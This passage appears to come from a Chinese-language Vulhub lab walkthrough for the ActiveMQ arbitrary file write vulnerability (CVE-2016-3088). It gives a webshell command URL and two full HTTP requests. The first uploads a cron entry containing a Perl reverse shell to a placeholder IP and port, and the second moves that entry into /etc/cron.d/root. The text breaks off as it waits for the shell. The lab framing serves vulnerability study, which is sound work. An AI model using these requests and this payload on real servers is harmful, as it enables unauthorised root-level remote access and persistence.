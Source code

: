 验证

> 指令：`http://centos7-6.local:8161/api/test.jsp?pwd=023&i=[command]`

![验证](./../../../../images/Vulhub/activemq/ActiveMQ%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-3088%EF%BC%89/%E5%86%99%E5%85%A5%20webshell/%E9%AA%8C%E8%AF%81.png)

[**写入crontab，自动化弹shell**](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2016-3088/README.zh-cn.md#写入crontab自动化弹shell)

**利用过程**

这是一个比较稳健的方法。首先上传 cron 配置文件（注意，换行一定要`\n`，不能是`\r\n`，否则 crontab 执行会失败）：

```http
PUT /fileserver/1.txt HTTP/1.1
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="[ip]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

将其移动到 /etc/cron.d/root：

```http
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

如果上述两个请求都返回 204 了，说明写入成功。等待反弹 shell ：
